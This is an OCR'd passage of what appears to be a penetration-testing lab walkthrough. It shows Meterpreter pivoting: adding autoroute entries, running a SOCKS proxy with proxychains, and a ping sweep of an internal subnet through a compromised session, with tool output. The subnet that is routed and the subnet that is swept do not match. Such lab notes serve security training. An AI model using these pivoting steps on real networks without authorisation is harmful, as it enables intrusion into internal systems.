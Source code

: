 ```
IPv4 Address : 192.26.21.3
IPv4 Netmask : 255.255.255.0


Interface 339461
============
Name         : eth1
Hardware MAC : 02:42:c0:18:35:02
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.24.53.2 ←
IPv4 Netmask : 255.255.255.0 ←
```

`run autoroute -s 192.24.53.0/24`: [✓]
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.24.53.0/255.255.255.0...
[+] Added route to 192.24.53.0/255.255.255.0 via 192.26.21.3 ←
[*] Use the -p option to list all active routes
```

`run autoroute -p`: [✓]
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.24.53.0        255.255.255.0      Session 2 ←
```

`bg`, `proxychains --version`, `cat /etc/proxychains4.conf`: [✓]
```
...

[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050 ←
```

`search socks`, `use auxiliary/server/socks_proxy`, `show options`, `set SRVPORT 9050`, `set VERSION 4a`, `run`. [✓]

**Step 6**.

`search ping sweep`, `use post/multi/gather/ping_sweep`, `show options`, `set RHOSTS 192.21.171.0/24`, `set SESSION 2`, `run`: [✓]
```
[*] Performing ping sweep for IP range 192.21.171.0/24
[+]     192.21.171.3 host found ←
[+]     192.21.171.1 host found ←
[+]     192.21.171.2 host found
[*] Post module execution completed
```
